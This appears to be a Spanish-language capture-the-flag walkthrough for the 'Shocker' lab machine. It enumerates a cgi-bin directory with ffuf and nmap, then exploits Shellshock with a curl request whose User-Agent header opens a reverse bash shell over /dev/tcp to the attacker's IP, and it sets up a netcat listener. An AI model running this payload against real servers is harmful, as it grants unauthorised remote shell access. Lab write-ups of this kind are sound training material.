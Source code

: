 # Enumeracion 
Al existir el directorio /cgi-bin/ vamos a enumerar con [[FFUF]] archivos con extensiones ``.sh .pl .cgi`` 

```shell
ffuf -u http://PaginaWeb/cgi-bin/FUZZ -w Diccionario -e .sh,.pl,.cgi
Ejemplo practico: ffuf -u http://10.10.10.56/cgi-bin/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -e .sh,.pl,.cgi
```
![[Shocker6.png]]

Y da que en el directorio cgi-bin hay un archivo user.sh   `http://10.10.10.56/cgi-bin/user.sh`
Como estamos ante el directorio cgi-bin, ejecutamos un comando de enumaracion de shellshock de `nmap`:
```shell
nmap -p80 10.10.10.56 --script http-shellshock --script-args uri=/cgi-bin/user.sh
```
Dice que es vulnerable a shellshock, asi que ahora vamos a explotarlo
![[Shocker7.png]]


# Explotación

[Articulo de shellshock](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html)
Vamos a usar el comando de curl para mandar el payload
```shell
curl -s -X GET "http://Webvictima/cgi-bin/ArchivoVulnerable" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/IpDeNuestraMaquina/Puerto 0>&1"
Ejemplo del comando: curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo;echo; /bin/bash -i >& /dev/tcp/10.10.16.6/443 0>&1"
```
*Parametros*
	`-s` Es de silent para no mostrar tanto output que no nos sirve
	`-X GET` es el metodo por el que vamos a enviar la peticion
	`-h` Es para podificar la cabecera que vamos a enviar que en este caso inyecta el payload

*Cosas atener en cuenta*
	acá no se usa el %26 para el & por que estamos dentro de bash y no se va a decodificar
	se pone el ;echo;echo para separar el payload malioso del comando, aveves

Esto va a ejecutar una revershell por lo que nos vamos a poner en escucha por el puerto 443 con [[nc -nlvp 443]]
```shell
nc -nlvp Puerto
Ejemplo: nc -nlvp 443
```
	
![[Shocker8.png]]



# Notas

## Extensiones .sh .pl. cgi
**.sh** El lenguaje es bash  
**.pl** Lenguaje Perl  
**.cgi** Common Gateway Interface Script

*¿Dónde se usan los archivos .cgi?*

- En servidores antiguos o simples que no usan PHP, Node.js, etc.
- En aplicaciones legacy que usan Perl o Bash.
- En entornos educativos o demostrativos.